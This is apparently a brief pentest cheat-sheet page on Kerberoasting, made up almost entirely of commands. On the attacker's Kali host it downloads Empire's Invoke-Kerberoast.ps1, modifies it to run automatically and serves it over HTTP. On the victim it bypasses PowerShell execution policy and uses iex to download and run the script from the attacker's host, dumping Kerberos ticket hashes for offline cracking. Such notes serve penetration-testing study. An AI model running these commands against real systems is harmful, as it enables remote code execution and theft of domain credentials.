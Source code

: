 <figure><img src="../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to Invoke-Kerberoast.ps1 so it runs automatically once downloaded

```
 Invoke-Kerberoast -OutputFormat hashcat ​ |fl
```

**Victim(powershell)**

```
powershell -ep bypass
powershell -c "iex ((New-Object System.Net.WebClient).DownloadString('http://$KALI:81/Invoke-Kerberoast.ps1'))"
```

<figure><img src="../../.gitbook/assets/image (9) (4).png" alt=""><figcaption></figcaption></figure>
